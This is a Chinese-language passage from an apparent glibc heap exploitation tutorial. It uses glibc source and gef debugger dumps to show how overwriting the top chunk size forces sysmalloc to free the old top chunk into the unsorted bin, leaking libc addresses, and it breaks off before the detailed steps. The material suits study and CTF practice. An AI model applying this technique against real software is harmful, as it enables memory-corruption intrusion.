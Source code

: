 ```c
          ((unsigned long) (old_size) >= MINSIZE &&
           prev_inuse (old_top) &&
           ((unsigned long) old_end & (pagesize - 1)) == 0));

  /* Precondition: not enough current space to satisfy nb request */
  assert ((unsigned long) (old_size) < (unsigned long) (nb + MINSIZE));
```
即满足 old_size 小于 `nb+MINSIZE`，`PREV_INUSE` 标志位为 1，`old_top+old_size` 页对齐这几个条件。

首先分配一个大小为 0x400 的 chunk：
```
gef➤  x/4gx p1-0x10
0x602000:	0x0000000000000000	0x0000000000000401  <-- chunk p1
0x602010:	0x0000000000000000	0x0000000000000000
gef➤  x/4gx p1-0x10+0x400
0x602400:	0x0000000000000000	0x0000000000020c01  <-- top chunk
0x602410:	0x0000000000000000	0x0000000000000000
```
默认情况下，top chunk 大小为 0x21000，减去 0x400，所以此时的大小为 0x20c00，另外 PREV_INUSE 被设置。

现在假设存在溢出漏洞，可以修改 top chunk 的数据，于是我们将 size 字段修改为 0xc01。这样就可以满足上面所说的条件：
```
gef➤  x/4gx p1-0x10+0x400
0x602400:	0x0000000000000000	0x0000000000000c01  <-- top chunk
0x602410:	0x0000000000000000	0x0000000000000000
```

紧接着，申请一块大内存，此时由于修改后的 top chunk size 不能满足需求，则调用 sysmalloc 的第一种方法扩充 top chunk，结果是在 old\_top 后面新建了一个 top chunk 用来存放 new\_top，然后将 old\_top 释放，即被添加到了 unsorted bin 中：
```
gef➤  x/4gx p1-0x10+0x400
0x602400:	0x0000000000000000	0x0000000000000be1  <-- old top chunk [be freed]
0x602410:	0x00007ffff7dd1b78	0x00007ffff7dd1b78      <-- fd, bk pointer
gef➤  x/4gx p1-0x10+0x400+0xbe0
0x602fe0:	0x0000000000000be0	0x0000000000000010  <-- fencepost chunk 1
0x602ff0:	0x0000000000000000	0x0000000000000011  <-- fencepost chunk 2
gef➤  x/4gx p2-0x10
0x623000:	0x0000000000000000	0x0000000000001011  <-- chunk p2
0x623010:	0x0000000000000000	0x0000000000000000
gef➤  x/4gx p2-0x10+0x1010
0x624010:	0x0000000000000000	0x0000000000020ff1  <-- new top chunk
0x624020:	0x0000000000000000	0x0000000000000000
gef➤  heap bins unsorted 
[ Unsorted Bin for arena 'main_arena' ]
[+] unsorted_bins[0]: fw=0x602400, bk=0x602400
 →   Chunk(addr=0x602410, size=0xbe0, flags=PREV_INUSE)
```
于是就泄漏出了 libc 地址。另外可以看到 old top chunk 被缩小了 0x20，缩小的空间被用于放置 fencepost chunk。此时的堆空间应该是这样的：
```
+---------------+
|       p1      |
+---------------+
|  old top-0x20 |
+---------------+
|  fencepost 1  |
+---------------+
|  fencepost 2  |
+---------------+
|      ...      |
+---------------+
|       p2      |
+---------------+
|    new top    |
+---------------+
```
详细过程如下：